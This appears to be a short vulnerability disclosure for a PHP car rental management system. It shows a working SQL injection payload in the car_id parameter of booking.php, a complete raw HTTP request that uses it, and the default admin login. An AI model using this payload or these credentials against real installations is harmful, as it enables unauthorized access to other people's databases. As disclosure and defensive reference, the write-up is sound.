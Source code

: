# Car Rental Management System v1.0 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.campcodes.com/projects/php/car-rental-management-system/

Vulnerability File: car-rental-management-system/booking.php?car_id=

Vulnerability location: car-rental-management-system/booking.php?car_id=,car_id

[+] Payload: car-rental-management-system/booking.php?car_id=-1%20union%20select%201,database(),3,4,5,6,7,8,9,10--+ // Leak place ---> car_id

Current database name: car_rental_db

```sql
GET /car-rental-management-system/booking.php?car_id=-1%20union%20select%201,database(),3,4,5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=q0aiu0hqk51vrl4kivubc7u18k
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170960246-3d17480c-ef46-42c9-9dc7-4c359a860833.png)

![image](https://user-images.githubusercontent.com/54017627/170960061-d0c860d9-b368-4c4e-b14f-ca17b58aa9b3.png)
